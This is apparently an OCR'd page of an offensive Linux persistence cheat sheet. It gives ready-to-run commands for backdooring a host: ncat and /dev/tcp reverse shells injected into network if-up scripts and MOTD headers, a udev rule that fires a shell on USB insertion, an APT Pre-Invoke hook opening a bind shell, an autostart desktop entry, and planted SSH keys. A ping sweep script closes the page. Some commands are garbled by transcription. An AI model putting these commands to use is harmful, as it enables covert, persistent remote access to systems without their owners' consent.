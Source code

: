 Backdooring a startup service 
Edit /etc/network/if-up.d/upstart file 
```
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null" 
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart 
```

Backdooring Message of the Day 
Edit /etc/update-motd.d/00-header file 
```
echo 'bash -c "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"' >> /etc/updatemotd.d/00-header 
```

Backdooring a user startup file 
Linux, write a file in ~/.config/autostart/NAME_OF_FILE.desktop 
```
In : ~/.config/autostart/*.desktop 

[Desktop Entry] 
Type=Application 
Name=Welcome 
Exec=/var/lib/gnome-welcome-tour 
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-gettingstarted-guide 
OnlyShowIn=GNOME; 
X-GNOME-Autostart-enabled=false 
```

Backdooring a driver
```
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null 
```

Backdooring the APT 
If you can create a file on the apt.conf.d directory with: APT::Update::Pre-Invoke {"CMD"}; Next time "apt-get update" is done, your CMD will be executed! 
```
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor 
```

Backdooring the SSH

Add an ssh key into the ~/.ssh folder. 
	1. ssh-keygen 
	2. write the content of ~/.ssh/id_rsa.pub into ~/.ssh/authorized_keys 
	3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys 

## Scripts


PING SWEEP

```
for x in {1..254..1};do ping -c 1 1.1.1.$x | grep "64 b" | cut -d" "-f4 ips.txt; done
```
